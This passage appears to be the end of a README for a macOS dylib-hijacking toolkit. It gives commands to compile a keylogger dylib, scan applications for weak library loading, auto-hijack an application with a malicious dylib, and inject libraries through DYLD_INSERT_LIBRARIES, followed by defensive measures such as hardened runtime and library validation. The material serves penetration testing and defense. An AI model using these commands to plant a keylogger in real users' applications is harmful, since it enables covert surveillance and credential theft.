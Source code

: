**Compilation:**
```bash
gcc -dynamiclib -framework Cocoa -framework Carbon keylogger_dylib.c -o keylogger.dylib
```

## Usage Examples

### Identifying Vulnerable Applications

```bash
# Scan Applications folder for vulnerabilities
./dylib_finder.sh /Applications

# Check if a specific application is restricted by AMFI
./amfi_checker /Applications/SomeApp.app/Contents/MacOS/SomeApp
```

### Exploiting a Vulnerable Application

```bash
# Create a hijacking dylib automatically
./auto_hijack.sh /Applications/VulnerableApp.app/Contents/MacOS/VulnerableApp @rpath/LibraryToHijack.dylib ./malicious.dylib

# Monitor dlopen calls in an application
sudo ./dlopen_hijack.sh /Applications/VulnerableApp.app/Contents/MacOS/VulnerableApp
```

### Testing Environment Variable Injection

```bash
# Create a basic injection dylib
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation basic_dylib_template.c -o injection.dylib

# Test injection on an application
DYLD_INSERT_LIBRARIES=./injection.dylib /Applications/SomeApp.app/Contents/MacOS/SomeApp
```

## Security Implications

Understanding dylib hijacking techniques is crucial for:

1. **Penetration Testing**: Identifying and exploiting weak points in software deployment
2. **Security Research**: Discovering new attack vectors in macOS applications
3. **Defensive Security**: Developing countermeasures against dylib-based attacks
4. **Application Hardening**: Building more secure applications by understanding attack methods

## Defensive Measures

To protect against dylib hijacking:

1. **Use Hardened Runtime**: Enable hardened runtime for your applications
2. **Enable Library Validation**: Require dylibs to be signed by the same team
3. **Use Absolute Paths**: Avoid relative paths when loading dylibs
4. **Sign All Binaries**: Code-sign all binaries and dylibs
5. **Use the __RESTRICT Segment**: Add a __RESTRICT segment to prevent environment variable injection
